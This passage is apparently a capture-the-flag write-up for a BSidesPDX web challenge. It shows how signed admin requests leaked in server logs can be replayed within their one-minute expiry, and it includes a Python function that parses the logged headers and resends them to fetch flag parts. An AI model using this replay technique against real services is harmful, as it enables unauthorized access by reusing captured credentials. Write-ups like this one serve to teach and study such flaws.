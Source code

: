 There are entries for `/flagp1`, `/flagp2`, etc., up to `/flagp5`. If you download the log a minute later, you'll see new entries in the log for the same URIs, but with different signatures. Let's break down this log entry:

* The log timestamp is `2020/10/25 02:47:40`
* The hostname is different than what we were given at the beginning: `web300-server.bsidespdxctf:1337`
* The IP address is an RFC1918 address, probably the local IP for the server
* We are given a listing of all the headers in the message:
  * `Accept-Encoding: gzip`
  * `Authorization: Signature keyId="admin",algorithm="rsa-sha256",headers="(request-target) host date content-type expire",signature="d43iAqPO7ekrfDlb6Xb7tlRd8sPAgT8dsqv7qMfd+aNp95bQhun94+F9sVLsJ8IjKqKMVn1Jn61BQRA/sFfizW5K6Gwp/zPUNuaFWhLTdqWdTGT1ujs9aBO8ZCgkWqcuIh9Co/b2mzxyNElLtSsH57bH3RDcGT6CCRRLzSVna1WfYYk7TXoOtaJySwWsA48yfkR4iHozthVXDAiEeULTL81z/KL7EWsQnEVSgHefmUt+q5pqJ+7B6OkXl0cu8RvUI3xm2nmmVIkayqJcSPygwG8bYSJnDOY1kofZAIKUh4KuqZi0cZk2JmrMDZ0TvvAD1/AuvSZtXgTMSCt5TgI3Hw=="`
  * `Date: 2020-10-25 02:47:40.340885309 +0000 UTC m=+4205.085915806`
  * `Expire: 2020-10-25 02:48:40.340885309 +0000 UTC m=+4265.085915806`
  * `Host: web300-server.bsidespdxctf:1337`
  * `User-Agent: yolo`

There are a couple interesting things in the `Authorization` header as well:

* The keyId used is `admin`
* There are more headers being signed than required:
  * `(request-target) host date content-type expire`

If we try and `GET /flagp1` with our key, you get the following output:

```
401 - Signature Expired
```

We are unfortunately not able to directly connect to those URIs and get the flag. Luckily, the logs contain all of the information we need to replay the admin request. Why/how can we do this?

* The `Expire` header is a minute after the `Date` header, so the contents of the request should be valid for one minute.
* Since the logs contain all of the headers, including the signature, we can make our own request using all of the headers, and the signature will be valid.

If we make a request for `GET /logs`, the most recent requests for each of the five flag pages should be valid, and we can parse out the necessary headers from the log to replay the request, and hopefully get 20% of the flag each time. One thing to worry about is the different hostname being used. The easiest way to get the `Host` header set properly is to configure an entry in `/etc/hosts` with `web300-server.bsidespdxctf` pointing to the server IP address (which can be obtained via `dig +short A cavage-enough-for-you.bsidespdxctf.party`).

Here's how I parsed the fields from the log and made the replay request:

```py
def use_log_to_replay(log_line):
    signature = log_line.split("Authorization:[")[1].split("]")[0]
    date = log_line.split("Date:[")[1].split("]")[0]
    expire = log_line.split("Expire:[")[1].split("]")[0]

    headers = {
        "Date": date,
        "Expire": expire,
        "Authorization": signature
    }

    uri = log_line.split(":1337")[1][:7]

    r = requests.get(f"http://web300-server.bsidespdxctf:1337{uri}", headers=headers)
    flag = r.content.decode()

    return flag
```
